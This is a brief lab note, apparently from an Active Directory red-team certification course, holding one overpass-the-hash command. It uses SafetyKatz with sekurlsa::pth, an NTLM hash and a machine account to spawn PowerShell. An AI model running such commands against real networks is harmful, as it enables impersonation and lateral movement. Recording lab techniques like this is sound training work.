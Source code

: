 # CRTE Over The Hash command 22/1/2024
SafetyKatz.exe "sekurlsa::pth /user:PAWSRV$ /domain:CITADEL.CORP /ntlm:e19f980f68ca43cbb88bec510aaf4b44 /run:powershell.exe" 
![Uploading S555555555555555555555555.png…]()
will be deleted in 24h

